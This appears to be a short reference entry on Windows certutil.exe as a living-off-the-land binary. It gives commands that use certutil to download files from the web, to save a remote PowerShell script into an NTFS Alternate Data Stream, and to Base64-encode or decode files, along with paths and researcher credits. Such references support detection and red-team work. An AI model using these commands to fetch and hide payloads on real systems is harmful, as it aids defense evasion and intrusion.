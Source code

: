 ## Certutil.exe
* Functions: Download, Add ADS, Decode, Encode
```

certutil.exe -urlcache -split -f http://7-zip.org/a/7z1604-x64.exe 7zip.exe
Download and save 7zip to disk in the current folder.

certutil.exe -urlcache -split -f https://raw.githubusercontent.com/Moriarty2016/git/master/test.ps1 c:\temp:ttt
Download and save a PS1 file to an Alternate Data Stream (ADS).

certutil -encode inputFileName encodedOutputFileName
certutil -decode encodedInputFileName decodedOutputFileName

Commands to encode and decode a file using Base64.
```
   
* Resources:   
  * https://twitter.com/Moriarty_Meng/status/984380793383370752
  * https://twitter.com/mattifestation/status/620107926288515072
   
* Full path:   
  * c:\windows\system32\certutil.exe
  * c:\windows\sysWOW64\certutil.exe
   
* Notes: Thanks to Matt Graeber - @mattifestation, Moriarty - @Moriarty2016  
   
